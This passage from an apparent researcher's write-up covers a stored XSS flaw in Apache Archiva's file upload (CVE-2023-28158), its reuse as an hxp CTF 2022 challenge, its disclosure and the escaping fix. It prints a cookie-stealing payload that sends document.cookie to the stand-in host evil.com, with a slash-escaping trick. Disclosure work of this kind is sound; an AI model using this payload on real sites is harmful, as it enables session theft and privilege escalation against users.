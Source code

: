When one of the above links is accessed, the payload executes on the victim's browser in the context of the archiva app and displays the `alert` window.

![alert on archiva.wikimedia.org](alert.png)


### Privilege Escalation

Using this vulnerability, users with minimal permissions to upload files evaluate their privileges by stealing the cookies of privileged users.

Attackers can perform privilege escalation using a simple cookie extraction payload:

```html
<img src=a onerror="fetch(String.fromCharCode(47)+String.fromCharCode(47)+'evil.com'+String.fromCharCode(47)+btoa(document.cookie))">
```

The above payload allows attackers to discreetly extract the cookies of privileged users to their own server. In the payload, slashes (`/`) need to be escaped, since a file is created. `String.fromCharCode` can be used to escape them.

### Reporting, CTF, and Fixing

I decided to use it to create a 0-day web challenge for hxp CTF 2022.[^hxpctf] [^chall] This challenge was solved by 38 teams who successfully exploited the vulnerability to obtain the flag. Afterwards, I promptly reported the vulnerability to Apache, which was immediately addressed and fixed on 14.03.2023.[^fix]

To fix the issue, the provided parameters are now properly escaped:[^code-save-fix]:

```java
public Boolean save( String repositoryId, String groupId, String artifactId, String version, String packaging,
                        boolean generatePom )
    throws ArchivaRestServiceException
{
!!    repositoryId = StringEscapeUtils.escapeHtml( StringUtils.trim( repositoryId ) );
!!    groupId = StringEscapeUtils.escapeHtml( StringUtils.trim( groupId ) );
!!    artifactId = StringEscapeUtils.escapeHtml( StringUtils.trim( artifactId ) );
!!    version = StringEscapeUtils.escapeHtml( StringUtils.trim( version ) );
!!    packaging = StringEscapeUtils.escapeHtml( StringUtils.trim( packaging ) );

    checkParamChars("repositoryId", repositoryId);
    checkParamChars("groupId", groupId);
    checkParamChars("artifactId", artifactId);
    checkParamChars( "version", version);
    checkParamChars("packaging", packaging);

    [...]
}
```

Additionally, special HTML characters are checked in `hasValidChars`[^code-valid-fix]:

```java
private boolean hasValidChars(String checkString) {
    if (checkString.contains(FS)) {
        return false;
    }
    if (checkString.contains("../")) {
        return false;
    }
    if (checkString.contains("/..")) {
        return false;
    }
!!    if (checkString.contains("<")) {
!!        return false;
```

[^cve]: <https://www.cve.org/CVERecord?id=CVE-2023-28158>
[^fix]: <https://github.com/apache/archiva/commit/d62e81c7e75f617cf01d2a75952a2c857758f8c4>
[^hxpctf]: <https://2022.ctf.link>
[^maillist]: <https://lists.apache.org/thread/8pm6d5y9cptznm0bdny3n8voovmm0dtt>
[^archiva]: <https://archiva.apache.org>
[^code]: <https://github.com/apache/archiva/blob/056682167a9ef3edc5308f1387836352c0925177/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java>
[^chall]: <https://2022.ctf.link/internal/challenge/b2ca2268-f49f-4103-9943-2a417244a955>
[^code-save]: <https://github.com/apache/archiva/blob/056682167a9ef3edc5308f1387836352c0925177/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java#L278-L366>
[^code-check]: <https://github.com/apache/archiva/blob/056682167a9ef3edc5308f1387836352c0925177/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java#L267-L275>
[^code-valid]: <https://github.com/apache/archiva/blob/056682167a9ef3edc5308f1387836352c0925177/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java#L254-L265>
[^code-savefile]: <https://github.com/apache/archiva/blob/056682167a9ef3edc5308f1387836352c0925177/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java#L424-L570>
[^code-valid-fix]: <https://github.com/apache/archiva/blob/d62e81c7e75f617cf01d2a75952a2c857758f8c4/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java#L255-L275>
[^code-save-fix]: <https://github.com/apache/archiva/blob/d62e81c7e75f617cf01d2a75952a2c857758f8c4/archiva-modules/archiva-web/archiva-web-common/src/main/java/org/apache/archiva/web/api/DefaultFileUploadService.java#L288-L376>
[^retired]: <https://attic.apache.org/projects/archiva.html>